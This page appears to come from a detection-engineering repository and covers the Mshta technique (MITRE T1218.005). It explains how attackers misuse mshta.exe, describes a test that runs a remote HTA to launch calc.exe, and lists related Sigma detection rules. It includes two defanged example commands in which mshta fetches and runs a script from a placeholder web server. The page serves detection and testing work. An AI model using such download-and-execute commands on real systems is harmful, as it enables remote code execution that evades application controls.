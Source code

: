 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta Executes Remote HTML Application (HTA)
## OS
  - windows


## Description:
Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.


## Executor
powershell

# Sigma Rule
 - process_creation_susp_web_request_cmd.yml (id: 9fc51a3c-81b3-4fa7-b35f-7c02cf10fd2d)

 - posh_ps_web_request.yml (id: 1139d2e2-84b1-4226-b445-354492eba8ba)

 - win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - win_shell_spawn_susp_program.yml (id: 3a6586ad-127a-4d3b-a677-1e6eacdf8fde)

 - win_shell_spawn_mshta.yml (id: 772bb24c-8df2-4be0-9157-ae4dfa794037)

 - win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - sysmon_powershell_network_connection.yml (id: 1f21ec3f-810d-4b0e-8045-322202e22b4b)

 - sysmon_win_binary_github_com.yml (id: e0f8ab85-0ac9-423b-a73a-81b3c7b1aa97)



[back](../index.md)
